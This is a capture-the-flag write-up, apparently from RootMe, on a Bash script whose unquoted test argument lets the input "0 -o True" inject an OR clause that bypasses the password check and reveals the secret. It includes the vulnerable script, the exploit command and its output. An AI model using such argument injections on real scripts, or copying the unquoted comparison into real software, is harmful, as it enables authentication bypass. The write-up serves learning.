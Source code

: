 ```yaml
---
layout: default
title: RootMe - Bash unquoted expression injection
permalink: /app-script/bash-unquoted-expression-injection
---
```


# Bash - unquoted expression injection

## Statement
Bypass this script’s security to recover the validation password.

## Source code
```bash
#!/bin/bash
    
#PATH=$(/usr/bin/getconf PATH || /bin/kill $$)
PATH="/bin:/usr/bin"
    
PASS=$(cat .passwd)
    
if test -z "${1}"; then
    echo "USAGE : $0 [password]"
    exit 1
fi
    
if test $PASS -eq ${1} 2>/dev/null; then
    echo "Well done you can validate the challenge with : $PASS"
else
    echo "Try again ,-)"
fi
    
exit 0
```

## Analyze
Let's analyze this code
```bash
#!/bin/bash
    
#PATH=$(/usr/bin/getconf PATH || /bin/kill $$)
PATH="/bin:/usr/bin"
    
PASS=$(cat .passwd) # Target

if test -z "${1}"; then # -z is to check if first argument is empty
    echo "USAGE : $0 [password]"
    exit 1
fi
    
if test $PASS -eq ${1} 2>/dev/null; then # If first arg is equal to flag
    echo "Well done you can validate the challenge with : $PASS"
else
    echo "Try again ,-)"
fi
    
exit 0
```

So magic will happen here
```bash
if test $PASS -eq ${1} 2>/dev/null; then
```

## Exploitation
```bash
app-script-ch16@challenge02:~$ ./wrapper "0 -o True"
Well done you can validate the challenge with : *************
```

## How does it work ?
Like classic injections, our goal is to force the condition to validate.

With this argument: `"0 -o True"` script condition became
```bash
#!/bin/bash
    
#PATH=$(/usr/bin/getconf PATH || /bin/kill $$)
PATH="/bin:/usr/bin"
    
PASS=$(cat .passwd)
    
if test -z "${1}"; then
    echo "USAGE : $0 [password]"
    exit 1
fi
    
if test $PASS -eq 0 -o True 2>/dev/null; then # Condition change here
    echo "Well done you can validate the challenge with : $PASS"
else
    echo "Try again ,-)"
fi
    
exit 0
```
`"0 -o True"`:
- `0` = Allows `-eq` to achieve its goal
- `-o` = Is OR in bash conditions
- `True` = Allows `-o` to make the condition as True

In pseudo-code, this changes the condition from:
```py
if $PASS == 0 :
```
to:
```py
if $PASS == 0 or True :
```